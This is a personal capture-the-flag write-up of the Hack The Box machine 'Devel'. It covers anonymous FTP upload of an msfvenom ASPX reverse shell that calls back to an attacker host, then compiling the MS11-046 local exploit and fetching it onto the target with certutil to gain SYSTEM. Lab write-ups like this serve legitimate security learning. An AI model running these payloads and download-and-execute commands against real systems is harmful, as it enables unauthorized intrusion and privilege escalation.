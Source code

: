 # Devel

This is my write-up for the Hack The Box machine called **Devel** located at: [https://app.hackthebox.com/machines/Devel](https://app.hackthebox.com/machines/Devel).

### Exploitation:

I started off of a nmap scan:

![](<../../.gitbook/assets/image (351).png>)

Since HTTP is open, I wanted to see what is offered on it:

![](<../../.gitbook/assets/image (328).png>)

This gave me a hint that the machine is running IIS7 as their software. At this time, my deeper nmap scan (`nmap -T4 -A -v -p- 10.10.10.5 -oN devel.nmap`) had ended:

![](<../../.gitbook/assets/image (374).png>)

From this, I can see that FTP has anonymous login allowed:

![](<../../.gitbook/assets/image (349).png>)

Using `wget -r ftp://anonymous:@10.10.10.5/` I downloaded all of the files in the folder. I then found the following **Metaploit** module:

![](<../../.gitbook/assets/image (364) (1).png>)

I then was able to get into that directory through FTP, and was able to upload files into it:

![](<../../.gitbook/assets/image (370).png>)

![](<../../.gitbook/assets/image (375).png>)

I was trying various files to upload, but the one that ended up working was the ASPX file. I created the file by running the following:

```
msfvenom -f aspx -p windows/shell_reverse_tcp LHOST=10.10.xx.xx LPORT=4443 -e x86/shikata_ga_nai -o shell.aspx
```

I then used **Netcat** to then get the reverse shell:

![](<../../.gitbook/assets/image (366).png>)

At this point, I had a shell, but was not able to read files from the user or the Administrators' folders. I then found [this write-up](https://mrreh.com/hackthebox-devel-writeup/), which clarified what I should be doing. I was supposed to find and run [this exploit](https://www.exploit-db.com/exploits/40564) from exploit-db. I ran the following commands (after I downloaded the exploit):

```
//on my own machine
sudo apt-get install gcc-mingw-w64 //to install the i686-w64-mingw32-gcc command
i686-w64-mingw32-gcc MS11-046.c -o MS11-046.exe -lws2_32 //MS11-046.c is the exploit

//on remote machine
mkdir temp //thus making the C:\Users\Public\temp folder //going to have to CD into it

//on my own machine
python3 -m http.server 80 //host the files

//remote machine
certutil -urlcache -f http://10.10.xx.xx:80/MS11-046.exe MS11-046.exe
MS11-046.exe //should get you NT System Authority
```

I was then able to get the **root.txt** flag:

![](<../../.gitbook/assets/image (333).png>)

I then also got the **user.txt** flag as well:

![](<../../.gitbook/assets/image (365).png>)

### What I learned:

* That I should view the output of **systeminfo** more closely
* The **certutil** command on Windows
* That the **user.txt** file could be renamed to **user.txt.txt**

